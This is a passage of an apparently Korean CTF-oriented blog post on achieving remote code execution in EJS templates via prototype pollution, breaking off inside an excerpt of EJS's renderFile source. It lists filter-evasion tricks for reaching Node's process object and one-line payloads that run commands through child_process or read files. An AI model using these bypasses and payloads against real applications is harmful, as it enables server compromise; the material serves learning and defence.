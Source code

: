 {: .prompt-danger }

> `Prototype Pollution`이 발생한다는 것 자체가 큰 취약점이다. `Prototype Pollution`이 발생한다면 사용하고 있는 라이브러리에 따라서, 큰 문제가 발생할 수 있다. _(Ex. `jsonwebtoken`을 사용 중이라면 `token`이 잘못 생성되게도 할 수 있다.)_

### EJS RCE In CTFs

CTF에서는 `EJS RCE`와 관련된 문제가 종종 출제된다. 그러나, 여러 필터링 방법, JS의 모듈(`CommonJS`, `ES Module`)에 따라서 공격 방법이 달라진다. 이때 사용할 수 있는 공격 방법을 알아보자.

#### Text filtering bypass

- this['proc' + 'cess']
- this[['proc', 'cess'].join('')]
- this['proc'.concat('cess')]
- this[\`${'proc'}cess\`]
- this[\`${'proc' + 'cess'}\`]
- this[\`proc${''}cess\`]
- String.fromCharCode(1)
- c='abcdefghijklmnopqrstuvwxyz';process[c[0]+c[1]]
- eval('proc' + 'ess')
- using [JSFuck](https://jsfuck.com/)
- using Unicode escape sequences (e.g., `\u0070\u0072\u006F\u0063\u0065\u0073\u0073` for `process`)
- replace, Function constructor, map, reduce, etc...

#### CommonJS

- process.mainModule.require('child_process').execSync('code to execute')

#### ES Module

- import('child_process').then(({ execSync }) => execSync('code to execute'))
- process.binding('fs').readFileUtf8('file to read',0,0)

## Why EJS RCE Occurs?

`EJS`에서 `RCE`가 발생하는 이유는 간단하다. `EJS`는 `js`를 사용하는 템플릿이기 때문이다.

먼저, 왜 `EJS`에서 `RCE`가 발생하는지 보다, 어떻게 `EJS`가 작동하는지를 알아보자.

`express`에서 `render`를 호출하면 `renderFile`이 호출된다.

{: file="lib/ejs.js (v3.1.10)" :}

```js
exports.renderFile = function () {
  var args = Array.prototype.slice.call(arguments);
  var filename = args.shift();
  var cb;
  var opts = { filename: filename };
  var data;
  var viewOpts;

  // Do we have a callback?
  if (typeof arguments[arguments.length - 1] == "function") {
    cb = args.pop();
  }
  // Do we have data/opts?
  if (args.length) {
    // Should always have data obj
    data = args.shift();
    // Normal passed opts (data obj + opts obj)
    if (args.length) {
      // Use shallowCopy so we don't pollute passed in opts obj with new vals
      utils.shallowCopy(opts, args.pop());
    }
    // Special casing for Express (settings + opts-in-data)
```